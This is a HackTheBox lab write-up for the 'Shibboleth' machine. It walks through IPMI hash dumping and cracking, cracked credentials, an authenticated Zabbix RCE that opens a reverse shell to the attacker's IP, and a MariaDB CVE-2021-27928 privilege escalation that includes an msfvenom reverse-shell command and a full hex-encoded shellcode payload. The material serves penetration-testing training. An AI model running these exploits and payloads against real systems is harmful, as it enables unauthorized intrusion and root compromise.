




## Reconnaissance

### nmap 


### Web Service


###  Gobuster Path BruteForce


### WebService 2

> Following the result to check web service in browser 


### WFUZZ Scan subdomain 

```
wfuzz -w http://shibboleth.htb -H "Host: FUZZ.shibboleth.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-topmilion-5000.txt
```


> Filter word size 

```
wfuzz -w http://shibboleth.htb -H "Host: FUZZ.shibboleth.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-topmilion-5000.txt -hw 26
```


### Access subdomain 

> All the subdomain response the same page - Login page 

 

> Using gobuster to enumerate the subdomain 


> Try to access those results from gobuster 
> Most of them are forbidden, so I must need to login first


> Only find some path response content


> Try to login with common credential and the default credential 

```
Admin / zabbix
```


> So far, it's not able to find a way to exploit.
> I scan udp by nmap


> When I scan the detail of this udp port
> The following information - ipmi version 2


> Find port 623 open, research it.
> Research this IPMI-V2 

- [(HackTricks)Port 623](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)


## Exploit 

> Follow the instruction in HackTricks
> Start metasploit, using  ipmi_dumphashes


> Check options and set the necessary information 

```
set OUTPUT_JHON_FILE /home/kali/Desktop/HTB/lab/Shibboleth/ipmi.txt
set RHOSTS 10.129.230.172
set OUTPUT_HASHCAT_FILE /home/kali/Desktop/HTB/lab/Shibboleth/hashcat.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt
```


> After executing, I will get the hash value for Administrator
> I generate a hash file for cracking


> Try to crack it by hashcat.
> I need to know what's the mode I can use.
> I check the ipmi.txt which generates by dumphash and search the following keyword in hashcat help


```
ipmi 
rakp
IPMI
RAKP
```


> So I start to crack it by following command 

```
hashcat -m 7300 hashcat.txt  /usr/share/wordlists/rockyou.txt
```
> Find result.

```
Administrator / ilovepumkinpie1
```


> Using this credential, I cam login to ZABBIX


> Find the version of  ZABBIX and record it

```
Zabbix 5.0.17
```


> Search exploit code
> Here is a RCE exploit code which authenticated user is necessary



> So I use this code to get reverse shell.

```
python exp.py http://monitor.shibboleth.htb Administrator ilovepumkinpie1 10.10.17.145 1339
```


> Check  current user


> Try to confirm user flag, but permission not allowed


> Check other possible user

```
cat /etc/passwd
```


> Try to change user to ipmi-svc with password I found.



> Check user flag


## Privilege Escalation 

> Check network 



> Check OS information 


> Upload linpeas and execute it 


> Find the following information 

```
TLSPKSFILE
peeesskay.psk
/etc/zabbix
/usr/lib/zabbix
/usr/share/zabbix
```


> enumerate those file.
> Find DB information in /etc/zabbix


> DBUser and DBPassword

```
zabbix / bloooarskybluh
```


> Connect to MariaDB  
> Start to enumerate the DB

```
mysql -h localhost -u zabbix -p
```


> Find  user table with some credential
> But those are not useful for get root permission


> I also check the MariaDB version 

```
select @@version;
```

```
10.3.25-MariaDB-0ubuntu0.20.04.1
```


> Search exploit based on this version 

- [(GITHUB)CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)

> Follow the instruction in GITHUB.

1. Create exploit payload by msfvenom
   ```
   msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.17.145 lport=1330 -f elf-so -o pe.so
   ```

2.  Transfer it to target host



3. Login to MariaDB and do the following
```
SELECT UNHEX('7f454c4602010100000000000000000003003e000100000092010000000000004000000000000000b000000000000000000000004000380002004000020001000100000007000000000000000000000000000000000000000000000000000000dc0100000000000026020000000000000010000000000000020000000700000030010000000000003001000000000000300100000000000060000000000000006000000000000000001000000000000001000000060000000000000000000000300100000000000030010000000000006000000000000000000000000000000008000000000000000700000000000000000000000300000000000000000000009001000000000000900100000000000002000000000000000000000000000000000000000000000000000000000000000c00000000000000920100000000000005000000000000009001000000000000060000000000000090010000000000000a0000000000000000000000000000000b0000000000000000000000000000000000000000000000000000000000000000006a2958996a025f6a015e0f05489748b9020005320a0a1191514889e66a105a6a2a580f056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05') into dumpfile '/tmp/pe.so';

```


4. Then SET GLOBAL
```
SET GLOBAL wsrep_provider='/tmp/pe.so';
```


> Check nc listener 


> Check current user 


> Check root flag


## Reference 

- [Writeup](https://0xdf.gitlab.io/2022/04/02/htb-shibboleth.html#crack-ipmi-hash)
- [(ExploitDB)Zabbix 5.0.17 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50816)
- [ZABBIX Guidance Document](https://www.zabbix.com/documentation/current/en/manual/quickstart/login)
- [(HackTrick) UDP Port 623](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)
- [(GITHUB)ipmiPwner](https://github.com/c0rnf13ld/ipmiPwner)
- [MariaDB Version Check](https://database.guide/6-ways-to-check-your-mariadb-version/)
- [A Penetration Tester's Guide to IPMI and BMCs](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/)
- [(GITHUB)CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)

###### tags: `HackTheBox`